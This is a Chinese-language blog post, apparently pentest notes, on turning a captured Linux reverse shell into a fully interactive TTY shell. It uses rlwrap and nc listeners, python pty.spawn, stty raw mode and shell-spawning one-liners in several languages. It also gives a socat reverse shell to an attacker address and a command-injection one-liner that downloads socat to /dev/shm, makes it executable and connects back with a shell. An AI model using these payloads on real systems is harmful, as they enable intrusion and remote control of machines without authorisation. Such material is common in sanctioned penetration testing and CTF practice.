 ```yaml
---
title: Linux方向shell升级为完全可用的TTYshell
date: 2023-09-16 20:41:33
tags:
- 权限
categories:
- 权限
---
```


# Linux 反向 shell 升级为完全可用的 TTY shell

## 升级远程 shell（仅限 Unix 机器）

通常，在通过 nc 捕获 shell 之后，会在一个功能非常有限的 shell 中。例如没有命令历史记录（并使用向上“”和“向下”箭头循环浏览它们）和文件名称、命令自动完成等。在缺少这些功能的 shell 中查询或操作会比较麻烦。

**注意**：要检查 shell 是否是 TTY shell，请使用 `tty` 命令。

#### rlwrap

可以通过使用 rlwrap 命令包装 nc 侦听器来减轻对 shell 的一些限制。默认情况下不会安装它，需要使用 `sudo apt rlwrap` 或 `apt-get install rlwrap` 安装。

```bash
rlwrap nc -lvnp $port
```

#### 使用 Python 升级到完全交互式 shell：

1. 首先连接到 shell 后，先检查一下 python 的可用性， 用 winch 命令检查：

```bash
which python python2 python3
```

只要安装了其中任何一个，就将返回已安装二进制文件的路径。

1. 在靶机上输入以下命令（使用机器上可用的 python 版本！）

```rust
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

1. 接下来，在靶机上输入以下命令来设置一些重要的环境变量：

```bash
export SHELL=bash
export TERM=xterm-256color #允许 clear，并且有颜色
```

1. 键入 ctrl-z 以将 shell 发送到后台。
2. 设置 shell 以通过反向 shell 发送控制字符和其他原始输入。使用以下stty命令来执行此操作。

```bash
stty raw -echo;fg
```

回车一次后输入 reset 再回车将再次进入 shell 中：

![image](../资源文件/图片/1282531-20220110102654230-1851709271.png)

到此 TTY shell 升级完成。

#### 其他语言写入交互式 shell：

```bash
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"
```

#### 使用 socat

另一种方法是将 socat 二进制文件上传到靶机并获得一个完全交互式的 shell。从 https://github.com/andrew-d/static-binaries 下载适当的二进制文件。Socat 需要在两台机器上才能工作。

```bash
#在本地监听：:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#靶机:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.11.100:1234
```

如果在命令注入的地方注入反弹 shell，获得即时完全交互式的反向 shell：

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.11.100:1234
```

如果靶机访问不了互联网，就先把 socat 文件下载下来，开启 http 服务，然后将上面的路径指向你的本地地址。
